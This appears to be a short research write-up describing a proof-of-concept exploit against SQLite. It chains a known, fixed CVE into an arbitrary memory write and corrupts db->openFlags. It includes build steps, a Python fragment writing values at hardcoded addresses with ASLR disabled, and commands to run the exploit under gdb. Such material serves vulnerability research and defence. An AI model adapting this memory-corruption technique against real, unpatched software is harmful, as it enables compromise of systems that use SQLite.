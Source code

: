 # Corrupting `isDelete` to Attack `SQLite`

## Attack via Real-world (Fixed) Bugs

### 1. Gain arbitrary memory-write primitive

We reuse the [bug](./cve-2017-6983.md) for achieving arbitrary memory write.

#### 2. Compile SQLite

```bash
# in sqlite folder

CC="clang -DSQLITE_DEBUG" ./configure --enable-debug
make
```

### 3. Proof-of-Concept (PoC)

We need to corrupt `db->openFlags`. We disabled ASLR in this attack, so the addresses of `p` and faked structures are fixed. Bypassing ASLR is also feasible as demonstrated in page 60 of the slides. The complete PoC can be found in [isDelete-poc.py](./isDelete-poc.py).

```py
# The address of openFlags
openFlags = 0x651a6c
# set zMalloc in sqlite3_value
exp = writeVal(exp, sqlite3_value_off + 0x40, openFlags, 8)
# set the value of openFlags
exp = writeVal(exp, src_off, 0x100e, 4)
```

```bash
# clean up sqlite cache
$ rm -rf ~/.sqlite*

# generate the exploit poc
$ ./isDelete-exp.py

# exploit it with gdb
$ gdb ./sqlite3
(gdb) r < /tmp/exp
```
